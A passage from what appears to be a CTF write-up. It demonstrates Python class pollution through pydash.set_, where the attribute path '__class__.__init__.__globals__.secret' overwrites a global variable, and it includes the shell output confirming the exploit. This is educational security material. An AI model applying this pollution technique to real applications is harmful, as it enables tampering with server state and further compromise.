 **Let's test it locally:**
```py
#!/usr/bin/env python3
import pydash

secret = 'hello'

class Articles:

    def __init__(self):
        self.set('welcome', 'Test of new template system: {%block test%}Block test{%endblock%}')

    def set(self, article_name, article_content):
        pydash.set_(self, article_name, article_content)
        return True


    def get(self, article_name):
        if hasattr(self, article_name):
            return (self.__dict__[article_name])
        return None
    
    def remove(self, article_name):
        if hasattr(self, article_name):
            delattr(self, article_name)

    def get_all(self):
        return self.__dict__

    def __getitem__(self, article_name):
        return self.get(article_name)

if __name__ == '__main__':
    articles  = Articles()

    name = '__class__.__init__.__globals__.secret'
    content = 'Polluted secret'
    articles.set(name, content)

    print(articles.get_all())
    print(secret)
```

```shell
root@2ff4890118ce:/python-docker# python test.py
{'welcome': 'Test of new template system: {%block test%}Block test{%endblock%}'}
Polluted secret
```

It worked!

**After some painful debugging, I found [this CTF writeup from idekCTF 2022](https://ctftime.org/writeup/36082):**
